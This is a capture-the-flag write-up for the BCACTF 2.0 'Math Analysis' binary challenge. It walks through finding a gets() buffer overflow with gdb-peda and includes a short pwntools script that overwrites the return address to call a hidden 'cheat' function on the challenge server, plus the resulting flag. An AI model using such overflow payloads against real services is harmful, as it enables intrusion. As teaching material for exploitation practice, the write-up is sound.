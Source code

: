 # BCACTF 2.0 – Math Analysis

* **Category:** Binex
* **Points:** 150
* **Author:** [Wesley V](https://github.com/retoxified)

## Challenge

> Congratulations, you've graduated from letters! Now, let's move on to numbers.
>
> From the BCA Course Catalog:
>
>>Analysis I includes linear and quadratic functions, polynomials, inequalities, functions, exponential and logarithmic functions, conic sections, and geometry.
>
> That's a lot of cool stuff! I think you'll have tons of fun learning about functions in this class!

## Solution

The challenge page provides us with a [binary](Backup/analysis) and the [C code](Backup/analysis.c) it was compiled from.

Looking at the code, it becomes clear that the `cheat` function is what we're after. And the vulnerability that lets us do that is yet another buffer overflow. The program uses [gets](https://man7.org/linux/man-pages/man3/gets.3.html) to read our input into a 50 byte buffer.

The easiest way to figure out after how many bytes the return address is overwritten is to make use of a [De Bruijn sequence](https://en.wikipedia.org/wiki/De_Bruijn_sequence). So I load the binary up in gdb with the [peda](https://github.com/longld/peda) installed because it has some useful helpers.

One of these helpers is `pattern create [length]`, which generates a De Bruijn sequence for us. A length of 100 should do for our purposes;

![Image](Docs/math-analysis-1.jpg)

Running the program afterwards and entering this pattern as input results in a segfault on the return

![Image](Docs/math-analysis-2.jpg)

The address at the top of the stack is where our return address should be located. We can find the offset with `pattern offset [pattern]`

![Image](Docs/math-analysis-3.jpg)

Now that we figured out where to store the return address it's time to get the address of the `cheat` function. The intended solution was to read this from the output of the binary, because it prints the address to the console, but because the binary is not hardened with `PIE` we can simply hardcode the address, making the script very straightforward. Running the executable once reports `For example, here's a number: 4198998.` which is `0x401256` in hex.

```python
from pwn import *

#p = process('./analysis')
p = remote('bin.bcactf.com', 49158)

offs_cheat = 0x401256

p.sendline(b"A"*72 + p64(offs_cheat))

p.interactive()
```

which results in the following output:

```
It's math time, baby!
WOOO I love my numbers and functions and stuff!!
For example, here's a number: 4198998.
What do you think about that wonderful number?
> Numbeerrrrrs!
Anyways, we have a test coming up.
Be sure to study!
bcactf{challenges_are_just_functions_mapping_from_coffee_to_points}
```

So the flag for this challenge is:

`bcactf{challenges_are_just_functions_mapping_from_coffee_to_points}`